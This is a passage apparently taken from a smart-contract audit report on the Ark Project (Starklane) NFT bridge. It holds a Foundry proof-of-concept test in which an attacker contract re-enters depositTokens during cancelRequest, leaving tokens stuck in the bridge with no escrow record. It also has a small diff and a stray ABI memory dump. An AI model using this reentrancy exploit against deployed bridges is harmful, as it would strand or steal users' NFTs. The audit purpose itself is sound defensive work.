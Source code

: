         );
        

        return this.onERC721Received.selector;
    }

}

interface IStarklaneEscrowed is IStarklane {
    function _escrow(address collection, uint256 tokenId) external view returns(address);
}

contract AuditorTest is BridgeTest {

    function test_auditor_deposit_before_burn() public {
        
        uint256 delay = 30;
        IStarknetMessagingLocal(snCore).setMessageCancellationDelay(delay);
        uint256[] memory ids = new uint256[](2);
        ids[0] = 0;
        ids[1] = 1;

        // deploy an attack contract that will deposite on receiving an NFT
        AttackerContract attackContract = new AttackerContract{value: 10 * 30000}(bridge, erc721C1);

        (uint256 nonce, uint256[] memory payload) = setupCancelRequest(address(attackContract), ids);
        assert(IERC721(erc721C1).ownerOf(ids[0]) != address(attackContract));
        assert(IERC721(erc721C1).ownerOf(ids[1]) != address(attackContract));

        Request memory req = Protocol.requestDeserialize(payload, 0);

        vm.expectEmit(true, false, false, false, bridge);
        emit CancelRequestStarted(req.hash, 42);
        IStarklane(bridge).startRequestCancellation(payload, nonce);

        skip(delay * 1 seconds);
        // - Cancel request will transfer NFTs to the receiver and call `onERC721Received`
        // - We will call bridge.depositTokens
        // - Tokens will get escrowed by the Bridge
        // - onERC721Received will return back
        // - Token will get Burned
        // - The recever will receive his NFT on L2
        IStarklane(bridge).cancelRequest(payload, nonce);

        assert(IERC721(erc721C1).ownerOf(ids[0]) == bridge);
        assert(IERC721(erc721C1).ownerOf(ids[1]) == bridge);
        assert(IStarklaneEscrowed(bridge)._escrow(erc721C1, 0) == address(0x00));
        assert(IStarklaneEscrowed(bridge)._escrow(erc721C1, 1) == address(0x00));


        console2.log("Token[0] owner:", IERC721(erc721C1).ownerOf(ids[0]));
        console2.log("Token[1] owner:", IERC721(erc721C1).ownerOf(ids[1]));
        console2.log("Token[0] escrowed:", IStarklaneEscrowed(bridge)._escrow(erc721C1, 0));
        console2.log("Token[1] escrowed:", IStarklaneEscrowed(bridge)._escrow(erc721C1, 1));
    }
}
```

Since `escrow` variable is private, you will need to make it a `public` visibility in order for the test to work, add the public visibility to it.

[Escrow.sol#L17](https://github.com/Cyfrin/2024-07-ark-project/blob/main/apps/blockchain/ethereum/src/Escrow.sol#L17)
```diff
-   mapping(address => mapping(uint256 => address)) _escrow;
+   mapping(address => mapping(uint256 => address)) public _escrow;
```


 [0x00 => 0x20]: String Length Offset
 [0x20 => 0x40]: String Length value
 [0x40 => 0x60]: String value in Hexa
 [000]: 0000000000000000000000000000000000000000000000000000000000000020
 [020]: 0000000000000000000000000000000000000000000000000000000000000009
 [040]: 6261736555524928290000000000000000000000000000000000000000000000